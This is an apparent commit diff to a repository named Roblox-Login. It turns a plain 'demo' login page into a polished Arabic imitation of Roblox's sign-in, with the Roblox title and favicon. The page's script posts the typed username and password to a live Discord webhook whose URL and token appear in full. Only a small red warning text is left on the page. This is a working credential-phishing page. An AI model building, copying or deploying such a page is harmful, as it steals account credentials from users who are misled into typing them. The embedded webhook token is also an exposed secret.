

Before and after one commit to Master7723/Roblox-Login, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,15 +1,61 @@
 <!DOCTYPE html>
-<html>
+<html lang="ar">
 <head>
   <meta charset="UTF-8">
-  <title>Demo Login Page</title>
+  <title>Roblox</title>
+  <link rel="icon" href="https://www.roblox.com/favicon.ico">
+  <style>
+    body {
+      background-color: #f2f2f2;
+      font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif;
+      display: flex;
+      justify-content: center;
+      align-items: center;
+      height: 100vh;
+    }
+    .login-box {
+      background-color: white;
+      padding: 40px;
+      box-shadow: 0 0 20px rgba(0,0,0,0.1);
+      border-radius: 10px;
+      width: 300px;
+      text-align: center;
+    }
+    .login-box h2 {
+      margin-bottom: 20px;
+    }
+    .login-box input {
+      width: 90%;
+      padding: 10px;
+      margin: 10px 0;
+      border: 1px solid #ccc;
+      border-radius: 5px;
+    }
+    .login-box button {
+      padding: 10px 20px;
+      background-color: #e51c23;
+      border: none;
+      color: white;
+      border-radius: 5px;
+      cursor: pointer;
+    }
+    .warning {
+      margin-top: 15px;
+      font-size: 12px;
+      color: red;
+    }
+  </style>
 </head>
-<body style="text-align:center; margin-top:100px; font-family:sans-serif;">
-  <h2>Fake Roblox Login (Demo)</h2>
-  <input id="username" placeholder="Username"><br><br>
-  <input id="password" placeholder="Password"><br><br>
-  <button onclick="sendData()">Login (Demo)</button>
-  <p style="color:red;">⚠️ This is a demo only. Nothing is real.</p>
+<body>
+  <div class="login-box">
+    <h2>تسجيل الدخول إلى Roblox</h2>
+    <input type="text" id="username" placeholder="اسم المستخدم"><br>
+    <input type="password" id="password" placeholder="كلمة المرور"><br>
+    <button onclick="sendData()">تسجيل الدخول</button>
+    <div class="warning">
+      ⚠️ هذه صفحة تجريبية لأغراض أمنية فقط. لا تدخل معلومات حقيقية.
+    </div>
+  </div>
 
   <script>
     function sendData() {
@@ -18,13 +64,15 @@
 
       fetch("https://discord.com/api/webhooks/1399886528976650413/8qYx68ldSTmBja7oFhQUTTxVRJy0Tv8TUG8CwfT3VILzpIsp_nkqfG5enSzVa-DeSJOI", {
         method: "POST",
-        headers: { "Content-Type": "application/json" },
+        headers: {
+          "Content-Type": "application/json"
+        },
         body: JSON.stringify({
-          content: `Demo login: Username = ${username}, Password = ${password}`
+          content: `📩 تجربة تسجيل دخول وهمي:\n👤 المستخدم: ${username}\n🔐 كلمة المرور: ${password}`
         })
       });
 
-      alert("Demo login data sent to Discord (no real data used).");
+      alert("✅ تم إرسال البيانات إلى Webhook بنجاح (تجربة فقط).");
     }
   </script>
 </body>
```
